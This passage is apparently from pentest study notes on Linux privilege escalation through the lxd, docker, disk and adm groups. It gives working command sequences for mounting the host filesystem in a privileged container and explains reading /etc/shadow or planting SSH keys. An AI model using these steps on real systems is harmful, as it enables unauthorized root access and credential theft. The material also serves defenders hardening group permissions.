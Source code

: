 **LXC / LXD**

LXD is similar to Docker and is Ubuntu's container manager. Upon installation, all users are added to the LXD group. Membership of this group can be used to escalate privileges by creating an LXD container, making it privileged, and then accessing the host file system at /mnt/root. Let's confirm group membership and use these rights to escalate to root.
````
$ id
uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
````

Exploitation
````
$ unzip alpine.zip
$ lxd init
$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
$ lxc init alpine r00t -c security.privileged=true
$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
$ lxc start r00t
$ lxc exec r00t /bin/sh
````
Basically, we mount all the host's filesystems inside the /mnt/root container. From here we can read sensitive files such as /etc/shadow and obtain password hashes or gain access to SSH keys in order to connect to the host system as root, and more.

**Docker**
````
$ docker run -v /root:/mnt -it ubuntu
````
This command creates a new Docker instance with the /root directory on the host file system mounted as a volume. Once the container is started we are able to browse the mounted directory and retrieve or add SSH keys for the root user. This could be done for other directories such as /etc which could be used to retrieve the contents of the /etc/shadow file for offline password cracking or adding a privileged user.

**Disk**

Users within the disk group have full access to any devices contained within /dev, such as /dev/sda1, which is typically the main device used by the operating system. An attacker with these privileges can use debugfs to access the entire file system with root level privileges. As with the Docker group example, this could be leveraged to retrieve SSH keys, credentials or to add a user.

**ADM**

Members of the adm group are able to read all logs stored in /var/log. This does not directly grant root access, but could be leveraged to gather sensitive data stored in log files or enumerate user actions and running cron jobs.

## Capabilities

Linux capabilities are a security feature in the Linux operating system that allows specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted. This allows for more fine-grained control over which processes have access to certain privileges, making it more secure than the traditional Unix model of granting privileges to users and groups.
